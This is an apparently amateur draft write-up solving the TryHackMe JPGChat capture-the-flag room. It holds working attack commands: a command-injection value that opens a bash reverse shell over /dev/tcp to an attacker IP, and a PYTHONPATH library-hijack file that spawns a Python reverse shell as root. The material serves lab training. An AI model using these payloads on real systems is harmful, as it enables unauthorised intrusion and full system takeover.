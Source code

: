 ```yaml
---
layout: post
title: JPGChat CTF Writeup [DRAFT]
---
```


This is my first CTF Writeup, in this case for the [JPGChat room on TryHackMe](https://tryhackme.com/room/jpgchat).

## Enumeration
Nmap show only ports 22 and 3000 open.

To interact with port 3000 we tried telnet and received the following text:
```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

So we used nc now to interact:

```bash
echo "[REPORT]" | nc jpgchat.thm 3000
```

And we have some more details:

```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
this report will be read by Mozzie-jpg
your name:
```

To found the repository, we went github.com and searched for users https://github.com/search?q=Mozzie-jpg&type=users

The repository is: https://github.com/Mozzie-jpg/JPChat

And looking through the code we discovered a line:

os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)

## User Flag

So what we need is to escape a bash command to get a reverse shell:

echo "[REPORT]\n username \n 0<&196;exec 196<>/dev/tcp/10.11.X.Y/4243; bash <&196 >&196 2>&196;" | nc jpgchat.thm 3000

Remember to have have nc listening on the specific port in your attack machine:

```bash
nc -lvnp 4243
```

Now as **wes** user, we found the user.txt flag.

## Root flag:

```bash
sudo -l:
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So we can do library hijacking because we can use the SETENV to change the PYTHONPATH.
We check the python script first
```bash
wes@ubuntu-xenial:~$ cat /opt/development/test_module.py
```
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

So what we need is to create a compare.py file in a custom PYTHONPATH that will spawn a reverse shell:

```bash
cd /tmp

echo "import sys,socket,os,pty;s=socket.socket();s.connect(('10.11.X.Y',int('8042')));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('/bin/sh')" > compare.py
```

Finally we can run this sudo command to get a root reverse shell:

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/development/test_module.py
```
